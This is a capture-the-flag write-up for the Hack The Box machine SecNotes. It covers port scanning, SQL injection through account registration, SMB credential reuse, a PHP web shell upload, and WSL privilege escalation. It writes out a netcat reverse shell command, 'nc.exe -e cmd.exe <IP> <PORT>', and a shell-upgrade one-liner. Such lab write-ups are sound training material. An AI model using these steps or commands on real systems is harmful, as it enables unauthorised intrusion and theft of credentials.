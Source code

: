 ```yaml
---
description: >-
  https://www.hackthebox.eu/home/machines/profile/151https://www.hackthebox.eu/home/machines/profile/123
---
```


# SecNotes

## Nmap

First I run `nmap -p-` to find all open ports and then run a more intensive scan on the found ports to get the results below:

```
nmap 10.10.10.97 -p 80,445,8808 -A

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Port 80

Lets check out Port 80 first of all. Hitting the root page redirects us to /login.php.

![login.php](<../../../.gitbook/assets/image (149) (1).png>)

Following the link for "Sign up now" takes us to register.php

We are able to create an account which we can then use to login.

![Register.php](<../../../.gitbook/assets/image (150) (1).png>)

Once logged in we have some options

![Login landing page on SecNotes](<../../../.gitbook/assets/image (151) (1).png>)

Immediately we have a username for the user "tyler" as per the top part of the webpage. If we create a new note we can see that the input is not sanitized as I have been able to use the\_ \<h1>\_ tags to apply a header to my note.

![](<../../../.gitbook/assets/image (152) (1) (1).png>)

unfortunately because we will be the only users on this box we wont be able to exploit stored XSS to steal cookies. However, it looks like the site administrator has done a poor job of sanitising user input so we can look to other points of injection in the web application.

I tried the other options and could not find anything of value so we can head back to the login.php page and play around here.

We can see that trying a login with a random account name does inform us on if the account exists.

![login.php](<../../../.gitbook/assets/image (153).png>)

We can try with the "tyler" user we found earlier.

![login.php](<../../../.gitbook/assets/image (154).png>)

I tried common credentials as well and got nothing. Going back to the fact that input does not appear to be sanitized properly we can try creating an account using an injection paramter and see what happens.

## SQL Injection

Create a new account under register.php and use a SQL injection parameter.

![login.php](<../../../.gitbook/assets/image (155) (1) (1).png>)

Once we are logged in in we find we have managed to pull interesting information regarding tyler's account.

![](<../../../.gitbook/assets/image (156) (1).png>)

## SMB

Going back to our `nmap` scan earlier we do have port 445 open for SMB. We can use `smbclient` to check if the credentials found our valid for SMB.

![SMB on port 445](<../../../.gitbook/assets/image (157) (1).png>)

Looks like we have access and have landed on the IIS directory which is running on 8808 as per our `nmap` scan.

Going by the information the next best step would be to test file upload.

![using put to upload on SMB](<../../../.gitbook/assets/image (158) (1) (1).png>)

Looks like we can perform a file upload. To confirm this we can browse to the file in a web browser to confirm this is working as expected.

![File upload confirmation on port 8808](<../../../.gitbook/assets/image (159) (1) (1).png>)

## **Initial Foothold**

So we know that file upload works. Usually from here we can look at uploading a reverse shell. I tried `msfvenom` with ASP and ASPX files but could not get these to work on the server. The files appear to be removed almost instantly. It is possible anti-virus or a scrips cleaning the files out of the directory.

Looking back at our previous results on port 80 we can see the pages are being served as PHP files. Given this information we should start looking into PHP shells instead.

I tried a PHP reverse shell upload and this did not work for me. Instead I looked for a web shell and came across the following from[ joswr1ght.](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985)

![Simple php webshell](<../../../.gitbook/assets/image (160) (1).png>)

Save this into a PHP file and upload with SMB. Once uploaded navigate to the directory and you should have a webshell.

![webshell](<../../../.gitbook/assets/image (161) (1).png>)

From here we can upload `netcat` to the server using SMB. Kali has `nc.exe` located in the following directory: `/usr/share/windows-resources/binaries/nc.exe`

Upload this to the server as well. Start a listener on your attacking machine. I chose port 80 in my instance.

```
sudo nc -lvp 80
```

We can use the following command on the webshell to execute `nc.exe`.

```
nc.exe -e cmd.exe <IP> <PORT>
```

Where the `-e`\_ \_switch tells `nc.exe` which program on connection and \<IP> is our attacking IP and \<PORT> our listener port.

We are now connected as a low privilege account:

![nc.exe shell](<../../../.gitbook/assets/image (163) (1).png>)

From here we can grab the user.txt flag.

![Grabbing user.txt](<../../../.gitbook/assets/image (164) (1) (1).png>)

## Privilege Escalation

After moving around the system a little bit we come across the "Distros" directory in c:\\

![](<../../../.gitbook/assets/image (166).png>)

Inside the directory is an executable called `Ubuntu.exe`. After some research it looks like Windows Subsystem for Linux or (WSL) is installed. After some further research on Windows Privilege escalation regarding WSL it seems our next best step is to locate either `bash.exe` or `wsl.exe`. In this write up we will be focusing on `wsl.exe`

Move into the root of c:\ and execute the following command to locate `bash.exe`

```
dir wsl.exe /s
```

![](<../../../.gitbook/assets/image (169).png>)

Now that we have located `wsl.exe` I found the following information regarding WSL allowed me to progress:

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---windows-subsystem-for-linux-wsl" %}

![](<../../../.gitbook/assets/image (168) (1).png>)

We can grab a python reverse shell script and run it alongside wsl.exe for a reverse shell. Set up a `netcat` listener and run the python reverse shell appending wsl.exe before the command as per below:

![](<../../../.gitbook/assets/image (170) (1).png>)

Our listener picks up the shell and we have root on the Linux subsystem.

![](<../../../.gitbook/assets/image (171) (1).png>)

This next part took a little bit of digging around but highlighted the importance of upgrading the shell whenever possible. We can find the information to the next part using the `history` command however, this does not work unless you upgrade your shell.

When running the `history` command without an upgraded shell you will get the error `"/bin/sh: 1: history: not found".` Now if you upgrade the shell first for example with a python one as per the following:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

You will then be able to run the history command and retrieve the following information:

![](<../../../.gitbook/assets/image (172).png>)

You can still find the same information if you `cat` .bash\_history file but it is usually quick and easier just to run the `history` command.

From this we have some interesting information regarding SMB. We can take this command change the IP address and proceed with SMB to c$

![SMB](<../../../.gitbook/assets/image (173) (1).png>)

From here we can move into the machine administrator's Desktop and take the root flag.

![](<../../../.gitbook/assets/image (174) (1).png>)
